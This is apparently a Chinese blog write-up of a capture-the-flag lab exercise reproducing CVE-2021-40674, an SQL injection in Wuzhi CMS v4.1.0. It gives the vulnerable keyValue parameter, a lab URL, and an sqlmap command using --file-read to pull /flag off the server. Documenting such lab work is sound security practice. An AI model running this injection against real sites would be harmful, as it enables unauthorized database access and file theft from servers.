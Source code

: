 ```yaml
---
title: CVE-2021-40674【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞描述

An SQL injection vulnerability exists in Wuzhi CMS v4.1.0 via the KeyValue parameter in coreframe/app/order/admin/index.php.

## 2. 漏洞分析

[There are 3 SQL injections in Wuzhicms v4.1.0 background · Issue #198 · wuzhicms/wuzhicms · GitHub](https://github.com/wuzhicms/wuzhicms/issues/198)

## 3. 漏洞复现

漏洞点

`http://eci……u.com/www/index.php?m=pay&f=index&v=listing&_su=wuzhicms&keyValue=111`

sqlmap 读取 flag

```bash
python sqlmap.py -r post.txt -p keyValue --batch --file-read /flag
```

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311050040672.png)
